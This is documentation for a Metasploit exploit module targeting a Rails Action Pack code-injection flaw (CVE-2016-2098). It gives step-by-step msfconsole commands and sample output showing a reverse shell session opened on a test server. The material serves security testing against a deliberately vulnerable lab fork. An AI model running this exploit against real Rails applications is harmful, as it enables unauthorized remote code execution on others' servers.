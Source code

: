 rails_actionpack_inine_exec is a module that exploits the render method in Action Pack.
Applications that pass unverified user input to the ```render``` method in a controller
or view may be vulnerable to code injection.

## Vulnerable Application

Action Pack versions prior to 3.2.22.2, 4.1.14.2, and 4.2.5.2 use unsafe dynamic rendering.

## Verification Steps

Assuming you have the right requirements to run a rails server, you can use the following fork
to set up the vulnerable server for testing:

1. Do: ```git clone https://github.com/wchen-r7/dh-CVE_2016_2098.git```
2. Do: ```bundle install```
3. Do: ```rails -s -b 0.0.0.0```
4. Start msfconsole
5. Do: ```use exploit/multi/http/rails_actionpack_inline_exec```
6. Do: ```set RHOST [rails server IP]```
7. Do: ```set RPORT 3000```. 3000 is the default port for the rails server.
8. Do: ```set targeturi /exploits```
9. Configure the rest of the options (for the modules or the payload)
10. Do: ```exploit```, and you should get a session:

```
msf exploit(rails_actionpack_inline_exec) > run

[*] Started reverse TCP handler on 192.168.146.1:4444 
[*] Sending inline code to parameter: id
[*] Command shell session 1 opened (192.168.146.1:4444 -> 192.168.146.161:56661) at 2016-07-07 15:56:00 -0500
```

## Options

To use this module, you must manually discover the correct values for these datastore options:

### TARGETURI

The path to a vulnerable Ruby on Rails application.

### TARGETPARAM

The target parameter to inject with inline code.
